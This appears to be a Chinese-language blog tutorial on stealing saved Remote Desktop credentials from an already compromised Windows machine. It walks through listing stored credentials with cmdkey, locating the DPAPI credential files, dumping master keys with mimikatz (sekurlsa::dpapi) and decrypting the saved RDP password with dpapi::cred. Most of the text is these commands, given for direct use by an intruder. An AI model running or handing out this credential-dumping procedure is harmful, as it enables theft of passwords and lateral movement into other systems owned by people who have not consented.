





<!--more--> 
# 0x00 前言
在获取一台机器的权限的时候可以查看一下本地 mstsc 是否有远连的记录，如果有的话可以尝试获取本地 mstsc 保存的凭据

需要工具：mimikatz

# 0x01 开始
**1.查询本地保存的RDP凭证**

这是在 Cs 上远控的场景，如果是上机的话命令也差不多。

输入 `cmdkey /l` 列出本地 mstsc 凭据

发现其中保存了一个远程机器的凭据

**2.获取RDP本地保存凭证的文件**

 `dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*`

来获取保存凭据的文件路径

`mimikatz.exe "dpapi::cred /in:C:\Users\Administrator\AppData\Local\Microsoft\Credentials\8C3DD554874BDFAEFBF6678F107E632C" "exit" > p1.txt`

替换一下 `44E150FF9311B4669A2ACF9D6B0DD725`

`type p1.txt` 可以查看内容

~~忘记保存图片了，图片是网图~~

**3.查询GUID对应的masterkey**

`mimikatz.exe "sekurlsa::dpapi" "exit" > dp.txt` 获取 Masterkey

`type dp.txt` 可以查看内容

**4.使用 Masterkey 进行解密RDP**

`mimikatz.exe "dpapi::cred /in:C:\Users\Administrator\AppData\Local\Microsoft\Credentials\4271BC8446A2B6987B1B22E9CE849985 /masterkey:6858b78c7b20bf4678f3f1240abe825d65db127fbfbcb7c4b81919ef06eb722ecac7c1bc1b7868a4b714696914c4d6d3f41f20db1c18571ec4080610e2c15382" "exit" > p1.txt`

替换其中的 `/in:` 和 `/masterkey` 即可

`type p1.txt` 可以查看内容

